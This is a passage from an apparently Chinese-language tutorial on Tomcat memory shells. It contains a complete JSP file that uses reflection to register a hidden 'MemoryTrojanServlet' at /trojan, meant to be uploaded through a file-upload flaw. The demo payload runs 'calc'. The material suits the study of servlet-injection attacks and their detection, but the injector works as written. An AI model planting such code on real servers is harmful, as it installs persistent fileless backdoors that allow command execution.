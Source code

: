 2. 模仿 `configureContext()` 的过程，编写的木马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebServlet" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.io.PrintWriter" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="org.apache.catalina.Wrapper" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/4
      Time: 16:38
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
      @WebServlet(urlPatterns = "/trojan")
      public class MemoryTrojanServlet extends HttpServlet {
        private String message;
    
        @Override
        public void init() {
          message = "Servlet Range!";
        }
    
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
          Runtime.getRuntime().exec("calc");
        }
      }
    %>
    <%
      // 动态注册 Servlet （前提，有一个文件上传点，这个 servlet.jsp 文件就是小马，访问后就会生成内存马）
      // 1. 获取 StandardContext
      ServletContext servletContext = request.getServletContext();
      // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
      Field applicationContextField = servletContext.getClass().getDeclaredField("context");
      applicationContextField.setAccessible(true);
      // 通过反射拿到 servletContext 具体的 ApplicationContext
      ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
      // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
      Field standardContextField = applicationContext.getClass().getDeclaredField("context");
      standardContextField.setAccessible(true);
      StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
      // 2. 将该 Servlet 注册到 Context 当中（过程和 StandardContext 注册 Servlet 一样）
      Wrapper wrapper = standardContext.createWrapper();
      wrapper.setName("MemoryTrojanServlet");
      wrapper.setServletClass(MemoryTrojanServlet.class.getName());
      // 这里需要补充一个 Servlet 的实例化，因为 Servlet 默认是懒加载的
      wrapper.setServlet(new MemoryTrojanServlet());
      standardContext.addChild(wrapper);
      // 这里就相当于写木马了，访问 /servlet 后，就会调用 MemoryTrojanServlet 的 doGet，从而喜提计算器
      standardContext.addServletMappingDecoded("/trojan", "MemoryTrojanServlet");
    %>
    </body>